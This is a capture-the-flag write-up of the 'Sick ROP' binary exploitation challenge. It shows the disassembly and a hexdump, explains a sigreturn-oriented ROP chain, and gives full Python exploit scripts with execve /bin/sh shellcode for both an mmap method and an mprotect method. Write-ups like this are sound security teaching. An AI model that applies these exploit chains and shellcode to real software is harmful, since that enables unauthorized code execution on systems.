









## Sick ROP
Even if this challenge was classified as "Easy", it really didn't seem like an easy challenge. There were other medium challenges I found way easier than this one: maybe because I got lost in multiple rabbit holes.

This is the whole disassembled challenge, on which we would have to get RCE. The only security protection is the NX bit, so we cannot put shellcode on the stack:
```
sick_rop:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <read>:
  401000:       b8 00 00 00 00          mov    $0x0,%eax
  401005:       bf 00 00 00 00          mov    $0x0,%edi
  40100a:       48 8b 74 24 08          mov    0x8(%rsp),%rsi
  40100f:       48 8b 54 24 10          mov    0x10(%rsp),%rdx
  401014:       0f 05                   syscall 
  401016:       c3                      ret    

0000000000401017 <write>:
  401017:       b8 01 00 00 00          mov    $0x1,%eax
  40101c:       bf 01 00 00 00          mov    $0x1,%edi
  401021:       48 8b 74 24 08          mov    0x8(%rsp),%rsi
  401026:       48 8b 54 24 10          mov    0x10(%rsp),%rdx
  40102b:       0f 05                   syscall 
  40102d:       c3                      ret    

000000000040102e <vuln>:
  40102e:       55                      push   %rbp
  40102f:       48 89 e5                mov    %rsp,%rbp
  401032:       48 83 ec 20             sub    $0x20,%rsp
  401036:       49 89 e2                mov    %rsp,%r10
  401039:       68 00 03 00 00          push   $0x300
  40103e:       41 52                   push   %r10
  401040:       e8 bb ff ff ff          call   401000 <read>
  401045:       50                      push   %rax
  401046:       41 52                   push   %r10
  401048:       e8 ca ff ff ff          call   401017 <write>
  40104d:       c9                      leave  
  40104e:       c3                      ret    

000000000040104f <_start>:
  40104f:       e8 da ff ff ff          call   40102e <vuln>
  401054:       eb f9                   jmp    40104f <_start>

```

```
0000000 457f 464c 0102 0001 0000 0000 0000 0000
0000010 0002 003e 0001 0000 104f 0040 0000 0000
0000020 0040 0000 0000 0000 11a0 0000 0000 0000
0000030 0000 0000 0040 0038 0003 0040 0005 0004
0000040 0001 0000 0004 0000 0000 0000 0000 0000
0000050 0000 0040 0000 0000 0000 0040 0000 0000
0000060 00e8 0000 0000 0000 00e8 0000 0000 0000
0000070 1000 0000 0000 0000 0001 0000 0005 0000
0000080 1000 0000 0000 0000 1000 0040 0000 0000
0000090 1000 0040 0000 0000 0056 0000 0000 0000
00000a0 0056 0000 0000 0000 1000 0000 0000 0000
00000b0 e551 6474 0006 0000 0000 0000 0000 0000
00000c0 0000 0000 0000 0000 0000 0000 0000 0000
*
00000e0 0010 0000 0000 0000 0000 0000 0000 0000
00000f0 0000 0000 0000 0000 0000 0000 0000 0000
*
0001000 00b8 0000 bf00 0000 0000 8b48 2474 4808
0001010 548b 1024 050f b8c3 0001 0000 01bf 0000
0001020 4800 748b 0824 8b48 2454 0f10 c305 4855
0001030 e589 8348 20ec 8949 68e2 0300 0000 5241
0001040 bbe8 ffff 50ff 5241 cae8 ffff c9ff e8c3
0001050 ffda ffff f9eb 0000 0000 0000 0000 0000
0001060 0000 0000 0000 0000 0000 0000 0000 0000
0001070 0000 0000 0003 0001 1000 0040 0000 0000
0001080 0000 0000 0000 0000 0001 0000 0004 fff1
0001090 0000 0000 0000 0000 0000 0000 0000 0000
00010a0 0009 0000 0000 0001 1000 0040 0000 0000
00010b0 0000 0000 0000 0000 000e 0000 0000 0001
00010c0 1017 0040 0000 0000 0000 0000 0000 0000
00010d0 0014 0000 0000 0001 102e 0040 0000 0000
00010e0 0000 0000 0000 0000 001e 0000 0010 0001
00010f0 104f 0040 0000 0000 0000 0000 0000 0000
0001100 0019 0000 0010 0001 2000 0040 0000 0000
0001110 0000 0000 0000 0000 0025 0000 0010 0001
0001120 2000 0040 0000 0000 0000 0000 0000 0000
0001130 002c 0000 0010 0001 2000 0040 0000 0000
0001140 0000 0000 0000 0000 7200 706f 612e 6d73
0001150 7200 6165 0064 7277 7469 0065 7576 6e6c
0001160 5f00 625f 7373 735f 6174 7472 5f00 6465
0001170 7461 0061 655f 646e 0000 732e 6d79 6174
0001180 0062 732e 7274 6174 0062 732e 7368 7274
0001190 6174 0062 742e 7865 0074 0000 0000 0000
00011a0 0000 0000 0000 0000 0000 0000 0000 0000
*
00011e0 001b 0000 0001 0000 0006 0000 0000 0000
00011f0 1000 0040 0000 0000 1000 0000 0000 0000
0001200 0056 0000 0000 0000 0000 0000 0000 0000
0001210 0010 0000 0000 0000 0000 0000 0000 0000
0001220 0001 0000 0002 0000 0000 0000 0000 0000
0001230 0000 0000 0000 0000 1058 0000 0000 0000
0001240 00f0 0000 0000 0000 0003 0000 0006 0000
0001250 0008 0000 0000 0000 0018 0000 0000 0000
0001260 0009 0000 0003 0000 0000 0000 0000 0000
0001270 0000 0000 0000 0000 1148 0000 0000 0000
0001280 0031 0000 0000 0000 0000 0000 0000 0000
0001290 0001 0000 0000 0000 0000 0000 0000 0000
00012a0 0011 0000 0003 0000 0000 0000 0000 0000
00012b0 0000 0000 0000 0000 1179 0000 0000 0000
00012c0 0021 0000 0000 0000 0000 0000 0000 0000
00012d0 0001 0000 0000 0000 0000 0000 0000 0000
00012e0
```

We will not be working with much, not even `libc`.

We can rewrite the `ret` address of the `vuln` function through an overflow after the first 40 bytes in order to control code execution (we will call this **vuln_ret**), but, where do we jump to, or what do we do? Again, we cannot put shellcode on the stack, so we are very limited.

## `sigreturn` Syscall
What we could do is call [sigreturn](https://man7.org/linux/man-pages/man2/sigreturn.2.html):

```
...

This sigreturn() call undoes everything that was done—changing
the process's signal mask, switching signal stacks (see
sigaltstack(2))—in order to invoke the signal handler.  Using the
information that was earlier saved on the user-space stack
sigreturn() restores the process's signal mask, switches stacks,
and restores the process's context (processor flags and
registers, including the stack pointer and instruction pointer),
so that the process resumes execution at the point where it was
interrupted by the signal.
```

If we manage to put such an information struct on the stack and call `sigreturn`, we can control all the CPU registers and we would have a lot more leverage.

We can just replace the **vuln_ret** with a gadget that just calls `syscall` and then `ret` (so we can continue our rop chain), and right after this, put the `sigreturn` frame. We have such a gadget here, at `0x401014`:
```
401014:       0f 05                   syscall 
401016:       c3                      ret    
```

So our payload for the read would look like this:
```
...stack][AAAA...AAAA (40 times)][syscall_ret (0x401014)][sigreturn frame][stack...
```

But there's one issue: the `rax` register decides what syscall will be called. `sigreturn`'s number is 15 or 0x0f. So before getting to the `syscall_ret` gadget, we should have the number 15 in the `rax` register. Fortunately, for the `sigreturn` syscall we don't need to change the other registers, but how can we set the `rax` register to 15? Running `ROPgadget`, we don't find anything:
```
Gadgets information
============================================================
0x0000000000401012 : and al, 0x10 ; syscall
0x000000000040100d : and al, 8 ; mov rdx, qword ptr [rsp + 0x10] ; syscall
0x0000000000401044 : call qword ptr [rax + 0x41]
0x000000000040104c : dec ecx ; ret
0x000000000040100c : je 0x401032 ; or byte ptr [rax - 0x75], cl ; push rsp ;
 and al, 0x10 ; syscall
0x0000000000401023 : je 0x401049 ; or byte ptr [rax - 0x75], cl ; push rsp ;
 and al, 0x10 ; syscall
0x0000000000401054 : jmp 0x40104f
0x000000000040104d : leave ; ret
0x0000000000401010 : mov edx, dword ptr [rsp + 0x10] ; syscall
0x000000000040100b : mov esi, dword ptr [rsp + 8] ; mov rdx, qword ptr [rsp 
+ 0x10] ; syscall
0x000000000040100f : mov rdx, qword ptr [rsp + 0x10] ; syscall
0x000000000040100e : or byte ptr [rax - 0x75], cl ; push rsp ; and al, 0x10 
; syscall
0x0000000000401011 : push rsp ; and al, 0x10 ; syscall
0x0000000000401016 : ret
0x0000000000401049 : retf 0xffff
0x0000000000401014 : syscall

Unique gadgets found: 16
```

While debugging the code, I noticed the `rax` gets set to `0x130` after the `read` and `write` syscall.



This became obvious because those syscalls return the number of bytes read/written if successful. So if we only write 15 bytes to stdin, we should get the correct `rax`. This is impossible to do while injecting our payload, so we can just loop through the `vuln` function one more time to get the correct `rax` value. Our new payload should look like this:

```
...stack][AAAA...AAAA (40 times)][vuln (0x40102e)][syscall_ret (0x401014)][sigreturn frame][stack...
```

Then, we will loop around (the `vuln` address will get popped from the stack) and just write 15 more random bytes to stdin. After that, we should return to the `syscall_ret` gadget instead of looping again, which has a sigreturn frame next to it on the stack and will call `sigreturn` because 15 will be in `rax`.

## The Fun Part
Great! Now we can basically call any syscall we want and then redirect code execution to whatever address we want. Why? Because we control all of the CPU registers after the `sigreturn` syscall returns:
* `rax`: Choose what syscall to call
* `rdi`, `rsi`, `rdx`, `r10`, `r8`, `r9`: Choose arguments for the syscall
* `rip` - instruction pointer: Jump directly to the `syscall_ret` gadget to execute syscall
* `rsp` - stack pointer: After the call is executed, the `ret` will jump to the next address on the stack, so we can choose that location.

The fun part is finding *where* and *how* to inject shellcode and execute it. For the *how*, we can use the `read` logic already integrated in the binary. As for the *where*, we can use the free syscall we got from `sigreturn` to figure something out. But then there's also the *then what* problem: after executing `read`, how can we jump exactly to the address that we wrote to?

Now, I managed to exploit the program through 2 different syscalls: [mmap](https://man7.org/linux/man-pages/man2/mmap.2.html) and [mprotect](https://man7.org/linux/man-pages/man2/mprotect.2.html). Even if the `mmap` method only ended up working locally (I will explain why), I think it is interesting to also go through it because I got very lucky with a series of bytes in the executable to make it possible. I then exploited the remote service with the `mprotect` method.

## `mmap` Method (not intended)
So, what if we call `mmap` to get a new `r-w-x` page in our virtual memory. We can write shellcode to that section and execute it, the only problem is finding a good series of bytes that would act as our stack after `sigreturn` so we can jump to read (without messing up the stack with any `push` opcodes), read from stdin to that location, and then jump to it.

Lucky lucky lucky me, check out address `0x400090` (address `0x000090` in the hexdump):
```
0000090 1000 0040 0000 0000 0056 0000 0000 0000
00000a0 0056 0000 0000 0000 1000 0000 0000 0000
```

If we set the `rsp` to `0x400090`, the stack would look like this:



This means that `read` will write `0x1000` bytes of stdin input to address `0x56` and then jump to address `0x56` because of the following `ret`. Let's confirm this theory:



Awesome, so we just need a memory segment with `read/write/execute` permissions at address `0x56`. We will need to map from address `0x0` to `0x1000` since the starting address needs to be aligned with the `0x1000` bytes page size. We cannot do it from `0x1000` to `0x2000` since `0x56` is outside that range. We can use `mmap` for something like this. These are the arguments I used for the syscall:

```
void *mmap(void addr[.length], size_t length, int prot, int flags,
                  int fd, off_t offset);
```

* `addr`: `0x0`
* `length`: `0x1000` - to map from `0x0` to `0x1000`
* `prot`: `PROT_READ` | `PROT_WRITE` | `PROT_EXEC`
* `flags`:
    * `MAP_PRIVATE`
    * `MAP_ANONYMOUS` - we cannot use `fd` 0 to read from stdin in `mmap`. We will just use the `read` function, so this flag disables reading from the `fd`, basically ignoring it.
    * `MAP_FIXED` - we want the mapped section starting exactly at `0x0`, we don't want the kernel giving us any other address.

```python
def get_mmap_frame():
    f = SigreturnFrame(kernel="amd64")
    f.rax = 9
    f.rdi = 0x0
    f.rsi = 0x1000
    f.rdx = 0x1 | 0x2 | 0x4
    f.r10 = 0x2 | 0x20 | 0x10
    f.r8 = 0
    f.r9 = 0
    f.rip = u64(SYSCALL_RET)
    f.rsp = 0x400090
    return bytes(f)
```

What shellcode to inject? Let's put some NOPs, and a simple `execve` call with the binsh string appended at the end of the payload at a fixed address:

```
mov rdi, 0x100 
mov rax, 59
xor rsi, rsi
xor rdx, rdx
syscall
```

And this is the payload:

```python
mmap_payload = b"A" * 40
mmap_payload += VULN
mmap_payload += SYSCALL_RET
mmap_payload += get_mmap_frame()

f = open("./execve_shellcode_mmap", 'rb');
shellcode = b"\x90\x90\x90\x90";
shellcode += f.read();
shellcode += b"A" * (0x100 - 0x56 - len(shellcode))
shellcode += b"/bin/sh\x00";

r.send(mmap_payload)
r.recv(len(mmap_payload))
r.send(b"A" * 15)
r.recv(15)
r.send(shellcode);

# We should have shell, program will likely crash afterwards
r.interactive()
```

Check the memory state after `sigreturn` and `mmap`, we should have a `rwx` memory segment from `0x0` to `0x1000`:



Shellcode injected and ready to call execve:





Well, this wouldn't work remotely because we cannot allocate virtual memory at address `0x0`. I am still not sure why this worked locally (maybe because of gdb attachment), but I was pretty sure it would segfault on the challenge server, which it did. Most modern linux systems allow memory mapping after address `0x10000`. It was interesting either way to explore because of the magical bytes we found that would allow us to write to that section using existing functionality and then jumping to it.

## `mprotect` Method

After figuring out that the mmap method would not work remotely, I started searching for other syscalls I can use. One other alternative is using `mprotect` to make the `0x400000` - `0x402000` section writeable and executable. Then, inject the shellcode there (we need to find a similar gadget like in the `mmap` method, but we don't need to return to it since we can use the **vuln_ret** again to return to it), but the ret destination (where our shellcode will be) mustn't mess up the already existing instructions before executing our shellcode. The address of this gadget should also avoid instructions since the `push` opcode will be used in the `read` function before getting to our shellcode, which could mess things up.

After a lot of searching and trying different gadgets, we found one at address `0x4010d8` which will write and execute at `0x4010b8`.




For the shellcode, we do a similar thing, just with a different location for the binsh string:

```
[BITS 64]
mov rdi, 0x4010f0
mov rax, 59
xor rsi, rsi
xor rdx, rdx
syscall

```

and the payload:

```python
def get_mprot_frame():
    f = SigreturnFrame()
    f.rax = 0x0a
    f.rdi = 0x400000
    f.rsi = 0x2000
    f.rdx = 0x1 | 0x2 | 0x4
    f.rip = u64(SYSCALL_RET)
    f.rsp = 0x4010d8
    return bytes(f)

def main():
    r = conn()

    mprot_payload = b"A" * 40
    mprot_payload += VULN
    mprot_payload += SYSCALL_RET
    mprot_payload += get_mprot_frame()

    f = open("./execve_shellcode", 'rb');
    shellcode = b"\x90\x90\x90\x90";
    shellcode += f.read();
    shellcode += b"A" * (40 - len(shellcode))
    shellcode += WHERE_WE_WRITE_AFTER_MPROT
    shellcode += b"A" * (0x4010f0 - u64(WHERE_WE_WRITE_AFTER_MPROT) - len(shellcode))
    shellcode += b"/bin/sh\x00"

    r.send(mprot_payload)
    r.recv(len(mprot_payload))
    r.send(b"A" * 15)
    r.recv(15)
    r.send(shellcode)

    # We should have shell, program will likely crash afterwards
    r.interactive()

```

